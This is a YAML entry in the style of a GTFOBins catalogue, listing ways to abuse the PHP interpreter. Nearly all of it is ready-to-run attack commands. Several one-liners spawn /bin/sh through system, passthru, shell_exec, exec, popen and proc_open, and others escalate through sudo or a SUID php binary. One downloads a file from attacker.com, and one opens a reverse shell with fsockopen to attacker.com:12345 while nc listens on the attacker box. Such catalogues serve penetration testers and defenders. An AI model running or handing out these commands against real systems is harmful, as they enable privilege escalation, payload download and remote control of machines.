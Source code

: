 ```yaml
---
functions:
  execute-interactive:
  - code: |
      export CMD="/bin/sh"
      php -r 'system(getenv("CMD"));'
  - code: |
      export CMD="/bin/sh"
      php -r 'passthru(getenv("CMD"));'
  - code: |
      export CMD="/bin/sh"
      php -r 'print(shell_exec(getenv("CMD")));'
  - code: |
      export CMD="/bin/sh"
      php -r '$r=array(); exec(getenv("CMD"), $r); print(join("\\n",$r));'
  - code: |
      export CMD="/bin/sh"
      php -r '$h=@popen(getenv("CMD"),"r"); if($h){ while(!feof($h)) echo(fread($h,4096)); pclose($h); }'
  execute-non-interactive:
    - code: |
        export CMD="id"
        php -r '$p = array(array("pipe","r"),array("pipe","w"),array("pipe", "w"));$h = @proc_open(getenv("CMD"), $p, $pipes);if($h&&$pipes){while(!feof($pipes[1])) echo(fread($pipes[1],4096));while(!feof($pipes[2])) echo(fread($pipes[2],4096));fclose($pipes[0]);fclose($pipes[1]);fclose($pipes[2]);proc_close($h);}'
  sudo-enabled:
    - code: |
        CMD="/bin/sh"
        sudo php -r "system('$CMD');"
  suid-enabled:
    - code: |
        CMD="/bin/sh"
        ./php -r "system('$CMD');"
  upload:
    - description: Serve files in the local folder running an HTTP server. This requires PHP version 5.4 or later.
      code: |
        LHOST=0.0.0.0
        LPORT=8888
        php -S $LHOST:$LPORT
  download:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        export URL=http://attacker.com/file_to_get
        export LFILE=file_to_save
        php -r '$c=file_get_contents(getenv("URL"));file_put_contents(getenv("LFILE"), $c);'
  reverse-shell-interactive:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        php -r '$sock=fsockopen(getenv("RHOST"),getenv("RPORT"));exec("/bin/sh -i <&3 >&3 2>&3");'
---
```

